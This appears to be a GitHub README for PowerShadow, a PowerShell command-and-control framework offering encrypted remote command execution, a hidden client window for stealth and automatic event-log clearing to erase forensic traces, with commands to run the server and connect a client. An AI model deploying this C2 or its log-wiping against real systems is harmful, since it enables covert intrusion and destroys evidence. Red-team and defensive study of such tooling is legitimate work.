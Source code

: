 # PowerShadow

PowerShadow is an advanced, encrypted TCP Command & Control (C2) framework written in PowerShell. It is designed for authorized security testing and educational purposes. PowerShadow features secure key derivation using PBKDF2, a hidden client window, and automated event log clearance on disconnect. The default TCP port is **9090**.

> **WARNING:**  
> This tool is intended for **authorized and ethical** security testing only. Misuse of this tool may be illegal and unethical. Always obtain explicit permission before testing any system.

---

## Features

- **Encrypted Communication:**  
   Commands entered on the server are encrypted using AES‑256 (CBC with PKCS7 padding) and sent over TCP
    with a 4‑byte length prefix. The client decrypts and executes the command, then encrypts the output
    and sends it back using the same protocol.

- **Secure Key Derivation:**  
  Derives the encryption key and IV from a user‑supplied passphrase (entered securely) and a shared salt using PBKDF2—avoiding hard‑coded keys.

- **Length‑Prefixed TCP Protocol:**  
  Implements a simple length‑prefixed protocol to reliably transmit encrypted messages over TCP.

- **Hidden Client Window:**  
  On Windows, the client’s PowerShell window is hidden for improved stealth.

- **Event Log Clearance:**  
  When the connection ends, the client automatically clears selected Windows and PowerShell event logs to reduce forensic traces.

- **Customizable Default Port:**  
  The default TCP port is **9090**. This can be modified via command‑line parameters.

---

## Installation

1. **Clone the Repository:**

   ```bash
   git clone https://github.com/sudoplunder/powershadow.git
   cd powershadow

## Execution
- **Server:**
```powershell
sudo pwsh ./powershadow.ps1 -Mode Server -Port 9090
```
- **Client:**
```powershell
.\powershadow.ps1 -Mode Client -ServerIP <server_ip> -Port 9090
```
